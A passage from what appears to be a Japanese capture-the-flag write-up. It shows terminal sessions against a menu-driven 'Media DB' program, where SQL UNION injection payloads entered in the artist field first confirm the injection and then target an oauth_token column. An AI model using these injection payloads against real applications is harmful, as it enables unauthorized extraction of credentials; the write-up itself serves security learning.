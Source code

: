 5) exit
> 1
artist name?
yotti' UNION SELECT 1, 2 --
song name?
test
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: yotti' UNION SELECT 1, 2 --

== new playlist ==
1: "2" by "1"
2: "goodnight" by "yotti"
3: "hello" by "yotti"

1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
```

これで結合されていることがわかります<br>
では先ほどのoauth_tokenをDB上で抜き取ります.

```
== new playlist ==
Traceback (most recent call last):
  File "./media-db.py", line 76, in <module>
    print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
  File "./media-db.py", line 45, in print_playlist
    for i, res in enumerate(c.execute(query).fetchall()):
sqlite3.OperationalError: near "(": syntax error
net40-dhcp199:script yotti$ ./connect.sh 
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
yotti' UNION SELECT ( SELECT oauth_token FROM oauth_tokens ), 2 --
song name?
hello
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: yotti' UNION SELECT ( SELECT oauth_token FROM oauth_tokens ), 2 --
